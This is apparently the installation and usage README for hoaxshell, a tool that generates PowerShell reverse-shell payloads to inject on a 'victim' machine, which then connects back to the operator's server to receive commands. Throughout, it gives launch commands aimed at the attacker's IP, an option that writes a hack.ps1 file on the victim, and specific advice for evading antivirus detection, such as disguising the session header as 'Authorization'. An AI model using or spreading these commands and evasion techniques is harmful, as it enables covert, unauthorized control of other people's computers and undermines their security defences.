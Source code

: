## Installation
```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

## Usage
**Important**: As a means of avoiding detection, hoaxshell is automatically generating random values for the session id, URL paths and name of a custom http header utilized in the process, every time the script is started. The generated payload will work only for the instance it was generated for. Use the `-g` option to bypass this behaviour and re-establish an active session or reuse a past generated payload with a new instance of hoaxshell. 

### Basic shell session over http
When you run hoaxshell, it will generate its own PowerShell payload for you to copy and inject on the victim. By default, the payload is base64 encoded for convenience. If you need the payload raw, execute the "rawpayload" prompt command or start hoaxshell with the `-r` argument. After the payload has been executed on the victim, you'll be able to run PowerShell commands against it.  

#### Payload that utilizes `Invoke-Expression` (default)
```
sudo python3 hoaxshell.py -s <your_ip>
```  

#### Payload that writes and executes commands from a file
Use `-x` to provide a .ps1 file name (absolute path) to be created on the victim machine. You should check the raw payload before executing, make sure the path you provided is solid.
```
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```  

### Recommended usage to avoid detection (over http)
Hoaxshell utilizes an http header to transfer shell session info. By default, the header is given a random name which can be detected by regex-based AV rules. Use -H to provide a standard or custom http header name to avoid detection.
```
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization"
sudo python3 hoaxshell.py -s <your_ip> -i -H "Authorization" -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"
```

### Encrypted shell session (https + self-signed certificate)
This particular payload is kind of a red flag, as it begins with an additional block of code that instructs PowerShell to skip SSL certificate checks, which makes it suspicious and easy to detect as well as significantly longer in length. Not recommended.
```
# Generate self-signed certificate:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Pass the cert.pem and key.pem as arguments:
sudo python3 hoaxshell.py -s <your_ip> -c </path/to/cert.pem> -k <path/to/key.pem>

```  
